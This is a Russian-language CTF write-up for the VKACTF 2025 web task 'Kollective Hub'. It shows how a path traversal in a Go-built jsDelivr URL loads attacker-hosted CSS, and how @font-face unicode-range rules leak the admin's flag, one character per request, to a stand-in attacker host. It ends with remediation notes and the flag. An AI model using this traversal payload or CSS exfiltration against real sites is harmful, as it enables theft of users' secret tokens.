 ## Kollective Hub

| Событие | Название | Категория | Сложность |
| :------ | ------ | ------ | ------ |
| VKACTF 2025 | Kollective Hub | web | hard |

  
### Описание


> Автор: [m1st3r_Sc413t7x](https://t.me/m1st3r_Sc413t7x)
>
В Kollective Hub пользователи пока не могут создавать свои стили, но скоро мы это исправим, а пока можно загружать и делиться доступными, или не слишком доступными... Лариса - главный дизайнер коллектива, хочет создать единую AssA систему, но в каких-то корыстных целях, узнайте что она скрывает и помешайте этому. 



### Решение

При входе нас встречает сервис, функционал которого состоит в том, чтобы создавать, загружать и делиться `CSS` стилями, другого функционала нет, это сразу должно нас натолкнуть на `CSS-exfiltration`. Видим, что при регистрации у нас якобы формируется какой-то токен - AtomID. Если посмотреть на предоставленные файлы, то у админа в этом месте флаг, и нам нужно каким-то образом его получить. Из рабочего функционала мы понимаем, что можем загружать и делиться стилями => нам нужно каким-то образом загрузить собственный `css-sploit`. В `upload_handler.go` видим, что стили загружаются через `cdn.jsdeliver` - открытый источник для проектов. Место ввода выглядит так:

```
themeLink := fmt.Sprintf("https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/%s-mode.css", themeNameTrimmed)
```

Если ввести dark/light, то нам реально загружаются стили из данного источника, все остальные нет. Изучив этот `cdn`, видим, что можно загружать свои стили, например, через `GitHub`.

```
https://cdn.jsdelivr.net/gh/user/repo@version/file
```

Выполнив это, посмотрим на строку формирования ссылки. Так как при вставке в `Sprintf()` вводимые данные не фильтруются, пробуем использовать уязвимость `Path Traversal`. Создадим в своем репозитории на `GitHub` любой `file-mode.css` для проверки. Загружаем файл следующим образом (без `-mode.css`, так как уже добавляется в коде):

```
../../../gh/daniilscaletta/css_example/file
```

Видим, что загрузка прошла, теперь необходимо написать `CSS-exploit`, который позволит нам получить символы флага.
Во-первых, нужно применить наш `exploit` к правильной области:

```
@charset "UTF-8";

.profile-info .profile-row:nth-child(4) .value {
    font-family: attack !important;
    font-size: 16px;
    display: inline;
}
```

Во-вторых, необходимо придумать способ как "украсть" контент через CSS. Если секретный контент находится в элементе `<input>`, то можно использовать `background-image`. Но в нашем случае мы воспользуемся `@font-face` для созданного шрифта.

```
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?v');
    unicode-range: U+0082;
}
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?k');
    unicode-range: U+0071;
}
@font-face {
    font-family: attack;
    src: url('https://attack.site.com/flag?a');
    unicode-range: U+0061;
}
```

Запросы приходят нам на вебхук, теперь напишем `exploit` на `Python` для генерации `CSS-exploit` со всей мощностью символов.

### Сплоит генерации `CSS-exploit`:

[gensploit_detect.py](./sploits/gensploit_detect.py)

### Полная версия `CSS-exploit`:

[detect-sploit.css](./sploits/exploit_detect.css)

### Символы приходят на `request catcher` (1)

![](./img/reqcatchflag.png)

Таким образом мы получили всю мощность символов, которые используются во флаге, теперь примерно увидев верный вариант, отправляем символы в правильной последовательности.

[check-sploit.css](./sploits/exploit_check.css)

### Символы приходят на `request catcher` (2)

![](./img/reqcatchflag_two.png)

Собираем флаг и сдаем системе.

### Ремарка 

```
Из-за особенностей сети при отправке запросов на перехват они могут приходить, а чаще всего, и приходят в неправильной последовательности. Ввиду того, что на этот факт участник повлиять никак не может, флажок выдавался по предоставлению организаторам всех пришедших символов.
```

### Устранение уязвимости

В данном таске были собраны несколько уязвимостей, которые естественно должны быть закрыты в реальном приложении:
1) Необходимо полностью изучать поведение подключаемых модулей, особенно открытых, и понимать, нельзя ли обойти их ограничения.
2) Касаемо любых входных данных, в том числе и стилей, нужно предварительно их фильтровать и при необходимости блокировать, перед применением просматривать на наличие возможных утечек.
3) Перед тем как принимать какие-либо данные от других пользователей, необходимо подтверждать это действие.

### Флаг

```
vka{ghost_pixel}
```